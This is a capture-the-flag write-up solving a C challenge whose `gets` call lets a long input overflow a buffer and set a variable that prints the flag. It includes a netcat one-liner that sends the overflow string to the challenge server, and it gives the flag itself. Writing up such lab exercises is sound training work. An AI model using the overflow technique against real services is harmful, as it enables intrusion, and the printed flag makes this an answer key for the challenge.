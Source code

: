 # spilledmilk (🪙 908)

We have made a program to train new milkmen in the town, but sometimes weird things happen with it, can you figure out what is wrong?

The source code is in the .txt-file.

nc 51.20.45.230 4004

📎 [script.txt](script.c)

# Writeup

Script seems like a pretty basic C, renamed it to `script.c` and used `gcc script.c -o script && chmod +x script` to compile it and make it executable. Now I can test locally.

I see that it uses `gets` to read the input from me. According to the [manual](https://man7.org/linux/man-pages/man3/gets.3.html) it states `Never use this function`. That is explained a lot better on youtube, but I remember that it is due to overflow. I can write more to memory and overwrite other data.

The code shows it will print flag if `secret_variable` is anything but 0. And since `buffer` which we read into is allocated right before the secret variable in memory we can just overflow until we overwrite that variable.

```bash
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | nc 51.20.45.230 4004
Good day!
Could you be so kind and pour me a glass of milk, please?

Watch it! You are spilling the milk!
siktCTF{Spi113d_M1lk}

Thank you, that was delicious!
```

# Flag

```
 siktCTF{Spi113d_M1lk}
```
